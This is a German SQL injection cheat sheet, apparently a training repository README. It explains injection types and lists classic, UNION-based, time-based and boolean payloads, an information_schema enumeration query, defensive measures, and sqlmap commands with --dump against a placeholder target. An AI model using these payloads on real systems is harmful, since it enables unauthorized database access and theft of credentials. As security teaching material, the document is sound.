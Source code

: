 # SQL Injection Cheat Sheet

---

## Inhaltsverzeichnis
- [Was ist eine SQL-Injection?](#was-ist-eine-sql-injection)
- [Grundlegende Arten von SQL-Injections](#grundlegende-arten-von-sql-injections)
- [Beispiele für SQL-Injection Payloads](#beispiele-für-sql-injection-payloads)
- [Wichtige SQL-Befehle zur Ausnutzung](#wichtige-sql-befehle-zur-ausnutzung)
- [Schutz vor SQL-Injection](#schutz-vor-sql-injection)
- [Nützliche Tools zur SQLi-Analyse](#nützliche-tools-zur-sqli-analyse)
- [Beispiel: SQL-Injection mit sqlmap](#beispiel-sql-injection-mit-sqlmap)
- [Fazit](#fazit)
- [Haftungsausschluss](#haftungsausschluss)

---

## Was ist eine SQL-Injection?

SQL-Injection (SQLi) ist eine Schwachstelle in Webanwendungen, bei der Angreifer schädlichen SQL-Code einschleusen, um mit der Datenbank zu interagieren. Ziel ist es, Daten zu lesen, ändern oder löschen, ohne Berechtigung zu haben.

---

## Grundlegende Arten von SQL-Injections

| Typ                   | Beschreibung                                                    |
| --------------------- | --------------------------------------------------------------- |
| Klassische SQLi       | Direkte Einspeisung in SQL-Abfrage                              |
| Blind SQLi            | Keine Fehlermeldung oder Ausgabe, aber Verhalten verändert sich |
| Time-Based Blind SQLi | Antwortzeit zeigt an, ob Abfrage erfolgreich war                |
| Union-Based SQLi      | Verwendung von UNION zur Datenabfrage                           |
| Error-Based SQLi      | Nutzt Fehlermeldungen zur Informationsgewinnung                 |

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Beispiele für SQL-Injection Payloads

### 1. Klassische Injection

```sql
' OR '1'='1
admin' --
```

### 2. Union-Based

```sql
' UNION SELECT null, username, password FROM users --
```

### 3. Time-Based (MySQL)

```sql
' OR IF(1=1, SLEEP(5), 0) --
```

### 4. Blind SQLi (Boolean)

```sql
' AND 1=1 -- (wird akzeptiert)
' AND 1=2 -- (wird abgelehnt)
```

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Wichtige SQL-Befehle zur Ausnutzung

| Befehl               | Zweck                                   |
| -------------------- | --------------------------------------- |
| `SELECT`             | Daten abfragen                          |
| `UNION`              | Daten aus mehreren Abfragen kombinieren |
| `INSERT`, `UPDATE`   | Daten manipulieren                      |
| `DELETE`             | Daten löschen                           |
| `INFORMATION_SCHEMA` | Metadaten zur Datenbank anzeigen        |

Beispiel:

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema=database();
```

---

## Schutz vor SQL-Injection

* ✅ Prepared Statements / Parameterized Queries verwenden (z. B. `PDO`, `mysqli` in PHP)
* ✅ Eingaben validieren und escapen
* ✅ Least Privilege Prinzip in der Datenbank anwenden
* ✅ Fehlerausgaben vermeiden oder loggen
* ✅ WAF (Web Application Firewall) einsetzen

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Nützliche Tools zur SQLi-Analyse

| Tool         | Funktion                                       |
| ------------ | ---------------------------------------------- |
| `sqlmap`     | Automatisierte SQLi-Tests und Exploits         |
| `Burp Suite` | Manuelles Testen und Modifizieren von Requests |
| `ZAP`        | Open Source Scanner für Webanwendungen         |
| `DVWA`       | Testumgebung für Web Security                  |

---

## Beispiel: SQL-Injection mit sqlmap

```bash
sqlmap -u "http://target.com/vuln.php?id=1" --batch --dbs
```

Weitere Beispiele:

```bash
sqlmap -u "http://target.com/login.php" --data="user=admin&pass=admin" --dump
```

---

## Fazit

SQL-Injections sind eine der ältesten, aber immer noch häufigsten Sicherheitslücken im Web. Mit ausreichendem Wissen und den richtigen Tools lassen sich diese erkennen, ausnutzen und vor allem vermeiden.

**Ziel:** Erkennen, verstehen und absichern.

---

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---